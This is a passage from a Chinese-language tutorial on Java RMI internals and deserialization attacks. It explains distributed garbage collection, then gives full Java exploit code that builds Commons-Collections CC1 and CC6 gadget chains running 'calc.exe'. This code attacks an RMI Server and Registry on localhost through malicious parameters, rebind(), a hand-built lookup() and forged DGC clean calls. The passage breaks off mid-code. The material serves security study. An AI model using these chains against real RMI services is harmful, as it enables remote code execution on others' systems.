    2. 服务端 Server 创建远程对象和对应 Stub（动态代理），生成 `Target` 后存入 `ObjectTable`。
    3. 服务端获取 `RegistryImpl_Stub`，调用 `bind/rebind()` 将远程对象 Stub 存放在 Registry 数据库中。
    4. 客户端获取 `RegistryImpl_Stub`，调用 `lookup()` 获取远程对象 Stub。然后调用方法。

### 1.5 分布式垃圾回收 DGC 的相关逻辑

1. 有关 DGC 的内容，在分析 Server 和 Client 时会涉及到，不过比较零散，这里就总的来说。
    有关 DGC 内容的介绍，可以直接来看 DGC 的接口：

    ```java
    package java.rmi.dgc;
    
    import java.rmi.*;
    import java.rmi.server.ObjID;
    
    /**
     * The DGC abstraction is used for the server side of the distributed
     * garbage collection algorithm. This interface contains the two
     * methods: dirty and clean. A dirty call is made when a remote
     * reference is unmarshaled in a client (the client is indicated by
     * its VMID). A corresponding clean call is made when no more
     * references to the remote reference exist in the client. A failed
     * dirty call must schedule a strong clean call so that the call's
     * sequence number can be retained in order to detect future calls
     * received out of order by the distributed garbage collector.
     *
     * A reference to a remote object is leased for a period of time by
     * the client holding the reference. The lease period starts when the
     * dirty call is received. It is the client's responsibility to renew
     * the leases, by making additional dirty calls, on the remote
     * references it holds before such leases expire. If the client does
     * not renew the lease before it expires, the distributed garbage
     * collector assumes that the remote object is no longer referenced by
     * that client.
     *
     * @author Ann Wollrath
     */
    public interface DGC extends Remote {
    
        /**
         * The dirty call requests leases for the remote object references
         * associated with the object identifiers contained in the array
         * 'ids'. The 'lease' contains a client's unique VM identifier (VMID)
         * and a requested lease period. For each remote object exported
         * in the local VM, the garbage collector maintains a reference
         * list-a list of clients that hold references to it. If the lease
         * is granted, the garbage collector adds the client's VMID to the
         * reference list for each remote object indicated in 'ids'. The
         * 'sequenceNum' parameter is a sequence number that is used to
         * detect and discard late calls to the garbage collector. The
         * sequence number should always increase for each subsequent call
         * to the garbage collector.
         *
         * Some clients are unable to generate a VMID, since a VMID is a
         * universally unique identifier that contains a host address
         * which some clients are unable to obtain due to security
         * restrictions. In this case, a client can use a VMID of null,
         * and the distributed garbage collector will assign a VMID for
         * the client.
         *
         * The dirty call returns a Lease object that contains the VMID
         * used and the lease period granted for the remote references (a
         * server may decide to grant a smaller lease period than the
         * client requests). A client must use the VMID the garbage
         * collector uses in order to make corresponding clean calls when
         * the client drops remote object references.
         *
         * A client VM need only make one initial dirty call for each
         * remote reference referenced in the VM (even if it has multiple
         * references to the same remote object). The client must also
         * make a dirty call to renew leases on remote references before
         * such leases expire. When the client no longer has any
         * references to a specific remote object, it must schedule a
         * clean call for the object ID associated with the reference.
         *
         * @param ids IDs of objects to mark as referenced by calling client
         * @param sequenceNum sequence number
         * @param lease requested lease
         * @return granted lease
         * @throws RemoteException if dirty call fails
         */
        Lease dirty(ObjID[] ids, long sequenceNum, Lease lease)
            throws RemoteException;
    
        /**
         * The clean call removes the 'vmid' from the reference list of
         * each remote object indicated in 'id's.  The sequence number is
         * used to detect late clean calls.  If the argument 'strong' is
         * true, then the clean call is a result of a failed dirty call,
         * thus the sequence number for the client 'vmid' needs to be
         * remembered.
         *
         * @param ids IDs of objects to mark as unreferenced by calling client
         * @param sequenceNum sequence number
         * @param vmid client VMID
         * @param strong make 'strong' clean call
         * @throws RemoteException if clean call fails
         */
        void clean(ObjID[] ids, long sequenceNum, VMID vmid, boolean strong)
            throws RemoteException;
    }
    ```

    官方对于 DGC 的说法是：DGC 用于分布式垃圾收集算法的服务器端。当客户端想要 unmarshal 远程对象时（反序列化并调用时），客户端就会调用其 `dirty()` 方法进行“租聘”（以获得调用权限），当客户端中不再存在对远程引用的引用时，将进行相应的 `clean()` 调用。当然，如果“租期”到了，客户端还没有“续租”的话，同样会被视为“客户端中不再存在对远程引用的引用”。

2. 从 DGC 接口入手，来看一下它的继承类，其实很少：
    
    可以看到，其命名方式和 `Registry`、`RegistryImpl`、`RegistryImpl_Stub`、`RegistryImpl_Skel` 很像，其实其通讯方式也是 Stub 和 Skel。可以看到，DGC 也有相应的 `DGCImpl`、`DGCImpl_Stub` 和 `DGCImpl_Skel`：
    

    不过相对于 Registry 是单独出来（和 Server 与 Client 同层）的，DGC 的本体 `DGCImpl` 和 `DGCImpl_Skel` 其实都是存放在 Server 端的。同时 `DGCImpl_Stub` 注册于 Registry，被 Client 获取以和 Server 通讯。
    在 [1.2.1 远程对象创建](# 1.2.1 远程对象创建)的末尾，提到了 `ObjectTable` 时涉及到 `DGCImpl`，这里来看一下 `ObjectTable` 中的元素：
    

## 2. RMI 的攻击

1. 由于 RMI 有三个角色，因此分别针对这三个角色进行攻击。
2. 对于 Registry 而言，Server 和 Client 的区别仅是调用的方法差别。而 Server 和 Client 最终通讯是不经过 Registry 的。

### 2.1 攻击 Server 端

#### 2.1.1 恶意参数 -- Client 攻击 Server

1. Client 在调用 Server 的方法时，涉及到参数的传输。那么 Server 会对参数进行反序列化，具体方法来自服务端的 `UnicastServerRef#dispatch()`，其中对参数反序列化（这里演示的是高版本的 OpenJDK，显然有安全性检查）：
    
    
    可以看出，如果参数是非基础类型（常见的就是 `Object`)，就会直接反序列化。所以如果接口需要一个 `Object` 类型的参数，就可以传 PoC 进行攻击。

2. 那么问题来了，如果参数不是 `Object` 类型而是其他类型，还可以进行攻击吗？
    首先 Client 和 Server 是共同接口方法的，调用方法的底层是反射。传输非方法要求的类型本质就是反射调用失败，找不到对应的重载方法。至于方法的寻找，在 Server 端的 `UnicastServerRef#dispatch()`，这个远程对象创建时也可以看到插入的过程：
    
    可以知道，这是一个通过 Hash 值来获取具体方法的 Map。
    那么现在考虑，能否调用存在的方法，但是传递的参数却是恶意的数据？

    > 答案是可以的，在 mogwailabs 的 [PPT](https://github.com/mogwailabs/rmi-deserialization/blob/master/BSides Exploiting RMI Services.pdf) 中提出了以下 4 种方法：
    >
    > - 通过网络代理，在流量层修改数据
    > - 自定义 “java.rmi” 包的代码，自行实现
    > - 字节码修改
    > - 使用 debugger
    >
    > 并且在 PPT 中还给出了 hook 点，那就是动态代理中使用的 `RemoteObjectInvocationHandler#invokeRemoteMethod()`。
    > Afant1 师傅使用了 Java Agent 的方式，在[这篇文章](https://www.anquanke.com/post/id/200860)里。0c0c0f 师傅使用了流量层的替换，在[这篇文章](https://mp.weixin.qq.com/s/TbaRFaAQlT25ASmdTK_UOg)里，有兴趣的师傅请自行查看。
    
3. 那首先为了不让编译器报错，客户端可以先重载方法（客户端和服务端接口不是实时同步更新的）：
    
    然后客户端发起请求：

    ```java
    public static void main(String[] args) throws Exception {
        // 通过注册中心连接到服务器
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        // 通过服务名查找服务，并转型成接口
        IMyRemote myRemote = (IMyRemote) registry.lookup("myRemote");
        // 调用方法
        // myRemote.saySth("Hello");
    
        // 通过 Object 类型传入恶意类
        attackByObject(myRemote);
    }
    /**
     * 通过 Object 类型传入恶意类
     */
    public static void attackByObject(IMyRemote myRemote) {
        try {
            // 这里不用对恶意类序列化，因为 RegistryImpl_Stub 会对其进行序列化
            myRemote.saySth(getSerializedCC1Object());
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
    // CC1，注意 JDK 版本
    public static Object getSerializedCC1Object() throws Exception {
        // 1. 构造链
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
        };
        Transformer transformedChain = new ChainedTransformer(transformers);
    
        // 2. 构造 LazyMap（同时也相当于创建被代理类）
        HashMap<Object, Object> map = new HashMap<>();
        LazyMap lazyMap = (LazyMap) LazyMap.decorate(map, transformedChain);
    
        // 3. 把 AnnotationInvocationHandler 的构造函数搞出来
        // 通过反射，获取到 class 类对象
        Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 通过 class 类对象获取 class 类对象的构造函数
        Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
        // 取消其访问检查（即绕过 protected 和 private 关键字修饰，直接对其变量赋值），
        aIHClassDeclaredConstructor.setAccessible(true);
    
        // 4. 先搞出来一个调用处理器，这里第一个参数没有要求
        InvocationHandler invocationHandler = (InvocationHandler) aIHClassDeclaredConstructor.newInstance(Override.class, lazyMap);
    
        // 5. 创建代理对象（被代理类已经创建好了）
        System.out.println(Arrays.toString(lazyMap.getClass().getInterfaces()));
        Map proxyMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
    
        // 6. 实例化并被序列化的对象（注意这里要传入代理对象，这样才能在其 readObject() 中调用代理对象的方法（即 entrySet()）
        return aIHClassDeclaredConstructor.newInstance(Override.class, proxyMap);
    }
    ```

    在 [1.3.3](# 1.3.3 服务调用) 中，Stub 动态代理 `invoke()` 调用，来到 `RemoteObjectInvocationHandler#invokeRemoteMethod()`，对反射调用的方法名进行修改：
    
    然后放行，即可成功调用。

#### 2.1.2 恶意参数引申 -- Client 攻击 Server

1. 除了上述提到的情况，考虑到非基本类型的参数在服务端都会被反序列化。如果服务端有个接口（例如为 `IMyRemote`）的有个方法接收自定义的类 A，那么客户端可以将恶意类继承/实现类 A，这样就可以将恶意类传递过去。

#### 2.1.3 动态类加载

1. 这一部分的知识接着 [2.1.1](# 2.1.1 恶意参数 -- Client 攻击 Server)，在 `UnicastRef#unmarshalValue()` 中对参数进行反序列化。不过这里的进行反序列化的流有些特殊：
    
    这个类继承 `MarshalInputStream`，其反序列化有一些特殊逻辑：
    
    跟进 `MarshalInputStream#resolveClass()`：

    ```java
    /**
     * resolveClass is extended to acquire (if present) the location
     * from which to load the specified class.
     * It will find, load, and return the class.
     */
    protected Class<?> resolveClass(ObjectStreamClass classDesc)
        throws IOException, ClassNotFoundException
    {
        /*
         * Always read annotation written by MarshalOutputStream
         * describing where to load class from.
         * annotation 就是远程类地址
         */
        Object annotation = readLocation();
    
        String className = classDesc.getName();
    
        /*
         * Unless we were told to skip this consideration, choose the
         * "default loader" to simulate the default ObjectInputStream
         * resolveClass mechanism (that is, choose the first non-null
         * loader on the execution stack) to maximize the likelihood of
         * type compatibility with calling code.  (This consideration
         * is skipped during server parameter unmarshalling using the 1.2
         * stub protocol, because there would never be a non-null class
         * loader on the stack in that situation anyway.)
         */
        ClassLoader defaultLoader =
            skipDefaultResolveClass ? null : latestUserDefinedLoader();
    
        /*
         * If the "java.rmi.server.useCodebaseOnly" property was true or
         * useCodebaseOnly() was called or the annotation is not a String,
         * load from the local loader using the "java.rmi.server.codebase"
         * URL.  Otherwise, load from a loader using the codebase URL in
         * the annotation.
         * 这里就是关键，可以看到这里就是远程类加载的地方
         */
        String codebase = null;
        if (!useCodebaseOnly && annotation instanceof String) {
            codebase = (String) annotation;
        }
    
        try {
            return RMIClassLoader.loadClass(codebase, className,
                                            defaultLoader);
        } catch (AccessControlException e) {
            return checkSunClass(className, e);
        } catch (ClassNotFoundException e) {
            /*
             * Fix for 4442373: delegate to ObjectInputStream.resolveClass()
             * to resolve primitive classes.
             */
            try {
                if (Character.isLowerCase(className.charAt(0)) &&
                    className.indexOf('.') == -1)
                {
                    return super.resolveClass(classDesc);
                }
            } catch (ClassNotFoundException e2) {
            }
            throw e;
        }
    }
    ```

2. 这里就涉及到远程类加载的问题了：

    > 当本地 ClassPath 中无法找到相应的类时，会在指定的 codebase 里加载 class。这个特性在 6u45/7u21 之前都是默认开启的。
    > 为了能够远程加载目标类，需要 Server 加载并配置 SecurityManager，并设置 `java.rmi.server.useCodebaseOnly=false`。

    [Zh1z3ven](https://www.cnblogs.com/CoLo) 师傅已经实现了相关逻辑，可以参考：
    
    > https://www.cnblogs.com/CoLo/p/15468660.html#rmi-动态加载类动态加载类主要是分为两个场景，角色分别为Client和Server
    >
    > 1. Client 端接受通过 RMI 远程调用 Server 端某个方法产生的**返回值**，但是该返回值是个对象且 Client 端并没有该对象的类，那么就可以通过Server 端提供的 URL 去动态加载类。
    > 2. Server 端在 RMI 过程中收到 Client 端传来的参数，该参数可能是个对象，如果该对象对应的类在 Server 端并不存在，那么就可以通过 Client 端提供的URL去动态加载类
    
    可以看到，Server 端和 Client 端是可以相互攻击的。
    不过综合来看，这种攻击方式的条件还是比较苛刻的。

### 2.2 攻击 Registry 端

#### 2.2.1 服务端攻击 Registry 端

1. 和注册中心 Registry 相关的操作，就是获取注册中心和调用注册中心的方法。获取注册中心 Registry 应该不好攻击，所以主要的落脚点就在调用 Registry 的方法上。

2. 以 Server 端的 `rebind()` 为例，最终反序列化的点在 `RegistryImpl_Skel#dispatch()`：
    

3. 服务端可以构造如下攻击语句：
    ```java
    package com.endlessshw.rmi.server;
    
    import com.endlessshw.rmi.common.IMyRemote;
    import com.endlessshw.rmi.common.Impl.MyRemoteImpl;
    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;
    import org.apache.commons.collections.keyvalue.TiedMapEntry;
    import org.apache.commons.collections.map.LazyMap;
    
    import java.lang.reflect.*;
    import java.rmi.Remote;
    import java.rmi.registry.LocateRegistry;
    import java.rmi.registry.Registry;
    import java.util.HashMap;
    import java.util.Map;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 服务器，提供自定义类的 RMI 服务
     * @date 2023/5/3 11:51
     */
    public class MyRemoteServer {
        public static void main(String[] args) throws Exception {
            // 实例化自定义类R
            IMyRemote myRemote = new MyRemoteImpl();
    
            // 通过 UnicastRemoteObject 将服务导出为远程服务接口，前提是远程接口没有继承 UnicastRemoteObject
            // IMyRemote myExportedRemote = (IMyRemote) UnicastRemoteObject.exportObject(myRemote, 0);
    
            // 通过注册中心，将 RMI 服务注册到 1099 端口
            // 远程拿到注册对象，这里为了演示方便，就先创建再远程获取
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
            // 如果注册中心和服务端在一起，上面的方法就要注释掉，改用下面的方法
            // Registry registry = LocateRegistry.createRegistry(1099);
            
            // rebindAttack 攻击注册中心
            registry.rebind("myRemote", rebindAttack());
        }
    
        private static Remote rebindAttack() throws Exception {
            // 1. 构造链 sink
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
            };
            ChainedTransformer transformedChain = new ChainedTransformer(transformers);
            // 2. kick-off 创建 HashMap
            HashMap<Object, Object> toBeSerializedHashMap = new HashMap<>();
            // 3. 构建 chain2，创建 LazyMap，先不传链的后半部分，让链断开，这样 put 时调用 HashMap.hashCode() 时不会触发链
            LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap<>(), new ChainedTransformer(new Transformer[]{}));
            // 4. 然后构建 chain1，创建 TiedMapEntry，注意这里，它最终会调用到 LazyMap.get("EndlessShw")，由于 LazyMap 中没有键为 EndlessShw，所以会向里面塞一个 key 为 EndlessShw
            // 在 CC1 中提到，LazyMap `get()` 获取不到 key 时，从而调用 `transform()`，因此要清除掉他的 Key
            TiedMapEntry lazyMapTiedMapEntry = new TiedMapEntry(lazyMap, "EndlessShw");
            // 5. 将 kick-off 和 chain 相连
            toBeSerializedHashMap.put(lazyMapTiedMapEntry, "随便");
            // 6. 把 lazyMap 中塞入的 key 给去掉
            lazyMap.remove("EndlessShw");
            // 当然也可以使用 clear
            // lazyMap.clear();
            // 7. 通过反射获取 LazyMap 的值，put 后改回来，最终让其在反序列化时触发
            Field factoryField = lazyMap.getClass().getDeclaredField("factory");
            factoryField.setAccessible(true);
            factoryField.set(lazyMap, transformedChain);
    
            // 上面的部分是 CC6 链主体部分，由于 rebind 的对象要继承 Remote，因此还需要使用动态代理
            Class<?> aIHClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
            aIHClassDeclaredConstructor.setAccessible(true);
            InvocationHandler invocationHandler = (InvocationHandler) aIHClassDeclaredConstructor.newInstance(Override.class, toBeSerializedHashMap);
            return (Remote) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Remote.class}, invocationHandler);
        }
    }
    
    ```

    特别需要注意的点就是：**由于 `rebind()` 的对象要继承 `Remote`，因此还需要使用动态代理**。

4. 下文还有通过重写 `rebind()` 来绕过该限制的攻击手法。

#### 2.2.2 客户端攻击 Registry 端

1. 客户端攻击主要也就是走的 `lookup()`。不过 `lookup()` 也像 `rebind()` 有注意的地方，那就是原生的 `lookup()` 只接收 `String` 类型：
    
    那客户端如何发起攻击？因此就需要客户端手动来发起请求。

2. 模仿 RMI 底层 `lookup` 发起请求的逻辑，可以编写以下攻击代码：
    ```java
    public static void main(String[] args) throws Exception {
        // 通过注册中心连接到服务器
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        // 通过服务名查找服务，并转型成接口
        IMyRemote myRemote = (IMyRemote) registry.lookup("myRemote");
    
        // 自定义 lookup 然后发起请求
        myLookup(registry);
    }
    /**
     * 模拟 RMI RegistryImpl_Stub 的 lookup，手动对 Registry 发起请求，源代码中是将传入的 name(String) 进行序列化发过去，因此在原来的 lookup 上没法下手脚。
     * 因此只能模仿其原生的逻辑，writeObject() 序列化一个对象（而不是 String）发送过去
     * 
     * @param registry 注册中心
     */
    private static void myLookup(Registry registry) {
        try {
            // 拿到 RegistryImpl_Stub 的 UnicastRef
            UnicastRef unicastRef = (UnicastRef) ((RegistryImpl_Stub) registry).getRef();
    
            // 模拟 RMI RegistryImpl_Stub 的 lookup，手动对 Registry 发起请求
            Operation[] operations = new Operation[]{new Operation("void bind(java.lang.String, java.rmi.Remote)"),
                                                     new Operation("java.lang.String list()[]"),
                                                     new Operation("java.rmi.Remote lookup(java.lang.String)"),
                                                     new Operation("void rebind(java.lang.String, java.rmi.Remote)"),
                                                     new Operation("void unbind(java.lang.String)")};
            StreamRemoteCall call = (StreamRemoteCall) unicastRef.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
            ObjectOutput out = call.getOutputStream();
            // 这里用了 CC1
            out.writeObject(getSerializedCC1Object());
            unicastRef.invoke(call);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
    ```

3. 其实按照这个思路，服务端攻击 Registry 也可以重写 `rebind()` 来绕过“反序列化对象需要继承 `Remote`”：
    ```java
    public static void main(String[] args) throws Exception {
        // 实例化自定义类R
        IMyRemote myRemote = new MyRemoteImpl();
    
        // 通过 UnicastRemoteObject 将服务导出为远程服务接口，前提是远程接口没有继承 UnicastRemoteObject
        // IMyRemote myExportedRemote = (IMyRemote) UnicastRemoteObject.exportObject(myRemote, 0);
    
        // 通过注册中心，将 RMI 服务注册到 1099 端口
        // 远程拿到注册对象，这里为了演示方便，就先创建再远程获取
        LocateRegistry.createRegistry(1099);
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        // 如果注册中心和服务端在一起，上面的方法就要注释掉，改用下面的方法
        // Registry registry = LocateRegistry.createRegistry(1099);
    
        // rebindAttack2 重写 rebind 攻击注册中心
        myBind(registry);
    }
    /**
     * 模拟 RMI RegistryImpl_Stub 的 bind，手动对 Registry 发起请求
     * @param registry
     */
    private static void myBind(Registry registry) {
        // 拿到 RegistryImpl_Stub 的 UnicastRef
        UnicastRef unicastRef = (UnicastRef) ((RegistryImpl_Stub) registry).getRef();
        // 模仿
        Operation[] operations = new Operation[]{new Operation("void bind(java.lang.String, java.rmi.Remote)"),
                                                 new Operation("java.lang.String list()[]"),
                                                 new Operation("java.rmi.Remote lookup(java.lang.String)"),
                                                 new Operation("void rebind(java.lang.String, java.rmi.Remote)"),
                                                 new Operation("void unbind(java.lang.String)")};
        try {
            RemoteCall call = unicastRef.newCall((RemoteObject) registry, operations, 0, 4905912898345647071L);
            ObjectOutput out = call.getOutputStream();
            out.writeObject("test");
            out.writeObject(getCC6());
            unicastRef.invoke(call);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
    private static HashMap getCC6() throws Exception{
        // 1. 构造链 sink
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
        };
        ChainedTransformer transformedChain = new ChainedTransformer(transformers);
        // 2. kick-off 创建 HashMap
        HashMap<Object, Object> toBeSerializedHashMap = new HashMap<>();
        // 3. 构建 chain2，创建 LazyMap，先不传链的后半部分，让链断开，这样 put 时调用 HashMap.hashCode() 时不会触发链
        LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap<>(), new ChainedTransformer(new Transformer[]{}));
        // 4. 然后构建 chain1，创建 TiedMapEntry，注意这里，它最终会调用到 LazyMap.get("EndlessShw")，由于 LazyMap 中没有键为 EndlessShw，所以会向里面塞一个 key 为 EndlessShw
        // 在 CC1 中提到，LazyMap `get()` 获取不到 key 时，从而调用 `transform()`，因此要清除掉他的 Key
        TiedMapEntry lazyMapTiedMapEntry = new TiedMapEntry(lazyMap, "EndlessShw");
        // 5. 将 kick-off 和 chain 相连
        toBeSerializedHashMap.put(lazyMapTiedMapEntry, "随便");
        // 6. 把 lazyMap 中塞入的 key 给去掉
        lazyMap.remove("EndlessShw");
        // 当然也可以使用 clear
        // lazyMap.clear();
        // 7. 通过反射获取 LazyMap 的值，put 后改回来，最终让其在反序列化时触发
        Field factoryField = lazyMap.getClass().getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap, transformedChain);
        return toBeSerializedHashMap;
    }
    ```

    也能执行命令，不过最终在 `RegistryImpl_Skel#dispatch()` 反序列化时会涉及到类转换错误的问题：
    `$param_Remote_2 = (java.rmi.Remote) in.readObject();`

### 2.3 攻击 Client 客户端

1. 对客户端的攻击可能更多用于反打。总结以下攻击思路：

    1. 服务端 Server 返回的对象如果是 `Object` 类型就可以攻击。
    2. 同 Server 端的动态类加载，条件也很苛刻。
    3. 客户端会拿到服务端远程对象的 Stub，如果这个 Stub 有问题，也会造成反序列化漏洞。

    好用的思路就是第三个，只要 Client 发起 `lookup()` 想获取远程对象的 Stub 就会中招。可以参考的实现方式是 Ysoserial 的 JRMPListener。

2. 对于动态类加载的方法，可以参考[这篇文章](https://www.cnblogs.com/CoLo/p/15468660.html#rmi-%E5%8A%A8%E6%80%81%E5%8A%A0%E8%BD%BD%E7%B1%BB)，利用的难度在于其有两个限制，因此用的不多。

### 2.4 使用 DGC 通讯进行攻击

1. 在 [1.5](# 1.5 分布式垃圾回收 DGC 的相关逻辑) 中大概介绍了 DGC 的相关逻辑。这里来看一下能攻击 DGC 的一些地方。
2. 其实 DGC 的通信和 RMI 通信在底层 Transport 是相同的处理逻辑，在上文的 [1.2.4 服务端注册远程对象 - 以 `rebind()` 为例](#1.2.4 服务端注册远程对象 - 以 `rebind()` 为例)中，提到了 `TCPTransport` 的操作：
    
    可以看到两者的处理逻辑相同。
    因此我们可以使用 DGC 来攻击任意一个由 JRMP 协议监听的端口，包括 `Registry` 端监听端口、`RegistryImpl_Stub` 监听端口、`DGCImpl_Stub` 监听端口、远程对象监听端口。

#### 2.4.1 使用 DGC 从 Client 客户端攻击 Server 端

1. 思路和攻击 Registry 端相似，`DGCImpl_Skel#dispatch()` 中，其会对传输来的数据进行反序列化：
    
    
    因此只需要在指定位置传入恶意反序列化数据即可。不过还是那个问题，涉及的 `dirty()` 和 `clean()` 的参数都不是 `Object`。
    
    因此在调用方法时，如何传入恶意数据？参考 [2.2.2 客户端攻击 Registry 的思路](# 2.2.2 客户端攻击 Registry 端)，同样的需要重写这两个方法。
2. 不过问题来了，如果现在去写的时候会发现，有一个参数是需要了解的：
    `StreamRemoteCall call = (StreamRemoteCall)unicastRef.newCall((java.rmi.server.RemoteObject) this, operations, 0, interfaceHash);`
    这里的第一个参数 `this` 是 `DGCImpl_Stub`，但是之前攻击 Registry 时用的 `RegistryImpl` 是很容易获取到的，**因此现在的问题在于“如何获取到 `DGCImpl_Stub`”**。
3. 在 [1.2.2 创建注册中心](# 1.2.2 注册中心 Registry 创建)，提到了 `RegistryImpl_Stub` 的创建来自于 `createStub(remoteClass, clientRef);`，那么 DGC 是否也是相同的逻辑呢？先来直接查看 `DGCImpl_Stub` 的 Usage：
    
    没有什么发现。考虑向上转型的可能，那只能从 `DGC` 接口下手：
    
    跟进，总算是有了线索：
    
    `DGCClient#EndpointEntry` 中创建了 `DGCImpl` 的动态代理，注意到这里创建动态代理是调用 `Util.createProxy()`：
    
    显然，殊途同归了，最终 Registry 和 DGC 创建 Stub 调用的方法都是相同的。
4. 现在还是不行，知道了创建的地方，得看看原生系统中是如何创建/或存放在客户端哪里的。这时就需要在此处打个断点，分析一下客户端获得 `DGCImpl_Stub` 的源头，从而从源头开始调用反射以定位到该变量。
    
    根据栈可以看到一些创建的方法，详细的分析流程可以参考：[DGC 调用流程(客户端)](https://halfblue.github.io/2021/10/26/RMI%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%B9%8B%E4%B8%89%E9%A1%BE%E8%8C%85%E5%BA%90-%E6%B5%81%E7%A8%8B%E5%88%86%E6%9E%90/#DGC%E8%B0%83%E7%94%A8%E6%B5%81%E7%A8%8B(%E5%AE%A2%E6%88%B7%E7%AB%AF))
    总之关键的地方在于这几个方法：
    
    可知需要反射拿到这个方法调用它以创建 `DGCImpl_Stub`，不过需要传入 `ep`，该变量存在于 `LiveRef` 中，因此也可以通过反射取出。
    
5. 客户端攻击 Server 端的代码如下：
    ```java
    /**
     * @author hasee
     * @version 1.0
     * @description: RMI 客户端
     * @date 2023/5/3 11:59
     */
    public class MyRemoteClient {
        public static void main(String[] args) throws Exception {
            // 通过注册中心连接到服务器
            Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
            // 通过服务名查找服务，并转型成接口
            IMyRemote myRemote = (IMyRemote) registry.lookup("myRemote");
            // 调用方法
            myRemote.saySth("Hello");
    
            // 自定义 DGC clean 请求对服务端发起攻击
            attackServerDGCClean(myRemote);
        }
        
        private static void attackServerDGCClean(IMyRemote myRemote) throws Exception{
            // 1. 先拿到远程对象相关的 UnicastRef
            Field remoteObjectInvocationHandlerField = Class.forName("java.lang.reflect.Proxy").getDeclaredField("h");
            remoteObjectInvocationHandlerField.setAccessible(true);
            RemoteObjectInvocationHandler remoteObjectInvocationHandler = (RemoteObjectInvocationHandler) remoteObjectInvocationHandlerField.get(myRemote);
            UnicastRef unicastRef = (UnicastRef) remoteObjectInvocationHandler.getRef();
    
            // 2. 通过 UnicastRef，获取到 LiveRef
            LiveRef liveRef = unicastRef.getLiveRef();
            // 再通过反射拿到 TCPEndpoint
            Class<? extends LiveRef> tcpEndpointClass = liveRef.getClass();
            Field epField = tcpEndpointClass.getDeclaredField("ep");
            epField.setAccessible(true);
            TCPEndpoint tcpEndpoint = (TCPEndpoint) epField.get(liveRef);
            // 根据客户端在 DGCImpl_Stub 被创建的流程，拿到其内部类 EndpointEntry 类，调用它的 lookup 方法（返回值是 EndpointEntry）并创建 DGCImpl_Stub
            Class<?> DGCClient_EndpointEntryClass = Class.forName("sun.rmi.transport.DGCClient$EndpointEntry");
            Method lookupMethod = DGCClient_EndpointEntryClass.getDeclaredMethod("lookup", Endpoint.class);
            lookupMethod.setAccessible(true);
            // lookup 是静态方法，第一个参数传 null
            Object endpointEntry = lookupMethod.invoke(null, tcpEndpoint);
            Field dgcField = endpointEntry.getClass().getDeclaredField("dgc");
            dgcField.setAccessible(true);
            DGCImpl_Stub dgc = (DGCImpl_Stub) dgcField.get(endpointEntry);
            // 本质上就是拿到 DGC/DGCImpl_Stub 通信时用到的 UnicastRef，这里和上面的 unicastRef 对比，就是其 ObjID 发生了改变，但端口没变。
            UnicastRef unicastRef2 = (UnicastRef) dgc.getRef();
            final java.rmi.server.Operation[] operations = {
                    new java.rmi.server.Operation("void clean(java.rmi.server.ObjID[], long, java.rmi.dgc.VMID, boolean)"),
                    new java.rmi.server.Operation("java.rmi.dgc.Lease dirty(java.rmi.server.ObjID[], long, java.rmi.dgc.Lease)")
            };
            final long interfaceHash = -669196253586618813L;
            StreamRemoteCall call = (StreamRemoteCall)unicastRef2.newCall(dgc,
                    operations, 0, interfaceHash);
            try {
                java.io.ObjectOutput out = call.getOutputStream();
                out.writeObject(getSerializedCC1Object());
            } catch (java.io.IOException e) {
                throw new java.rmi.MarshalException("error marshalling arguments", e);
            }
            unicastRef2.invoke(call);
            unicastRef2.done(call);
        }
    }
    ```

#### 2.4.2 从 Client 攻击 Registry

1. 其实从上文的代码就发现，攻击 Server 端是需要知道远程对象监听的端口号的。不过打 Registry 的话，默认就是 1099，所以一般 DGC 打 Registry 多。

2. 同上理，攻击代码如下：
    ```java
    /**
     * @author hasee
     * @version 1.0
     * @description: RMI 客户端
     * @date 2023/5/3 11:59
     */
    public class MyRemoteClient {
        public static void main(String[] args) throws Exception {
            // 通过注册中心连接到服务器
            Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
            // 通过服务名查找服务，并转型成接口
